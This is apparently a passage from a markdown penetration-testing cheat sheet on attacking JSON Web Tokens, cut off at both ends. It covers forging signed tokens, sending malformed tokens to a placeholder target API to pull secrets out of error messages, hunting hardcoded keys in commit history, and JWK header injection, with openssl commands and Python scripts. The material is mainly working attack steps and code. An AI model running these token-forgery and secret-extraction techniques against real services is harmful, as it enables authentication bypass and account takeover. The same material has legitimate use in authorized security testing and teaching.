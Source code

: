        # Create new signed token
       new_jwt = jwt.encode(payload, secret, algorithm="HS256")
       
       print(new_jwt)
       ```

    2. **Extracting secrets from source code/errors**:
       - Step 1: Check for JWT-related source code in JavaScript files
       - Step 2: Look for hardcoded secrets in repository commit history
       - Step 3: Generate errors by sending malformed JWTs
       - Step 4: Analyze error responses for key disclosure
       - Step 5: Check for config files accidentally exposed in web roots
       - Example: Trigger verbose errors with a malformed token structure
       - Exploitation insight: Debug environments often reveal more information in errors
       - Script to generate malformed tokens for error testing:
       ```python
       import requests
       
       base_url = "https://target.com/api"
       headers = {"Authorization": "Bearer "}
       
       # Test various malformed tokens
       test_tokens = [
           "eyJhbGc.eyJzdWI.signature",  # Malformed base64
           "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9",  # Missing parts
           "invalid.invalid.invalid",  # Invalid parts
           "eyJhbGciOiJIUzM4NCIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIn0.signature"  # Unsupported algorithm
       ]
       
       for token in test_tokens:
           current = headers.copy()
           current["Authorization"] += token
           response = requests.get(f"{base_url}/profile", headers=current)
           print(f"Token: {token}\nStatus: {response.status_code}\nResponse: {response.text}\n{'='*50}")
       ```

  - **JWK and JKU parameter attacks**
    1. **JWK header injection attack**:
       - Step 1: Generate a new RSA key pair using OpenSSL or JWT Editor in Burp
       - Step 2: Capture a valid JWT
       - Step 3: Modify the header to include a `jwk` parameter containing your public key
       - Step 4: Modify payload claims as desired
       - Step 5: Sign the token with your private key
       - Step 6: Send the modified token to the server
       - Command to generate key pair: `openssl genrsa -out private.pem 2048`
       - Command to extract public key: `openssl rsa -in private.pem -pubout -out public.pem`
       - Python script using pyjwt:
       ```python
       import jwt
       from cryptography.hazmat.primitives import serialization
       from cryptography.hazmat.primitives.asymmetric import rsa
       import json
       import base64
       